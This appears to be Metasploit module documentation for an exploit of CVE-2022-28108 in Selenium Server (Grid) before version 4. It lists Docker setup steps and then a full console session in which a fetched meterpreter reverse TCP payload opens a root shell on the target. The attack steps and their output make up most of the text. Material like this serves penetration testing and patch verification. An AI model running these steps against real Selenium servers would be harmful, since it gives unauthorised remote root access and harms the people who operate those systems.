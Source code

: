 ## Vulnerable Application

Selenium Server (Grid) before 4 allows CSRF because it permits non-JSON content types
such as application/x-www-form-urlencoded, multipart/form-data, and text/plain.

The vulnerability affects:

    * Selenium Server (Grid) before 4

This module was successfully tested on:

    * selenium/standalone-chrome:3.141.59 installed with Docker on Ubuntu 20.0.4


### Installation

1. docker pull selenium/standalone-chrome:3.141.59

2. docker run -d -p 4444:4444 -p 7900:7900 --shm-size="2g" selenium/standalone-chrome:3.141.59


## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/selenium_greed_chrome_rce_cve_2022_28108`
4. Do: `run lhost=<lhost> rhost=<rhost>`
5. You should get a meterpreter


## Options


## Scenarios
```
msf6 > use exploit/linux/http/selenium_greed_chrome_rce_cve_2022_28108
[*] Using configured payload cmd/linux/http/x64/meterpreter_reverse_tcp
msf6 exploit(linux/http/selenium_greed_chrome_rce_cve_2022_28108) > options

Module options (exploit/linux/http/selenium_greed_chrome_rce_cve_2022_28108):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    4444             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter_reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       WGET             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      JCDnGOMpY        no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces
   LHOST                                yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux Command



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/selenium_greed_chrome_rce_cve_2022_28108) > run lhost=192.168.56.1 rhost=192.168.56.16

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Expected error: unknown error: Chrome failed to start: exited normally.
  (unknown error: DevToolsActivePort file doesn't exist)
  (The process started from chrome location /usr/bin/python3 is no longer running, so ChromeDriver is assuming that Chrome has crashed.)
Build info: version: '3.141.59', revision: 'e82be7d358', time: '2018-11-14T08:25:53'
System info: host: 'e270e1bda998', ip: '172.17.0.2', os.name: 'Linux', os.arch: 'amd64', os.version: '6.8.0-51-generic', java.version: '1.8.0_292'
Driver info: driver.version: unknown
remote stacktrace: #0 0x5b8e0fc708f3 <unknown>
#1 0x5b8e0f755ba8 <unknown>
#2 0x5b8e0f778e33 <unknown>
#3 0x5b8e0f7749ef <unknown>
#4 0x5b8e0f7ae995 <unknown>
#5 0x5b8e0f7a8d63 <unknown>
#6 0x5b8e0f77f144 <unknown>
#7 0x5b8e0f780135 <unknown>
#8 0x5b8e0fc9fc3e <unknown>
#9 0x5b8e0fcb56b7 <unknown>
#10 0x5b8e0fca0b95 <unknown>
#11 0x5b8e0fcb6b05 <unknown>
#12 0x5b8e0fc952ab <unknown>
#13 0x5b8e0fcd1248 <unknown>
#14 0x5b8e0fcd13c8 <unknown>
#15 0x5b8e0fcec33d <unknown>
#16 0x72fc781a7609 start_thread

[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.16:50038) at 2024-12-26 23:30:24 +0900

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Ubuntu 20.04 (Linux 6.8.0-51-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
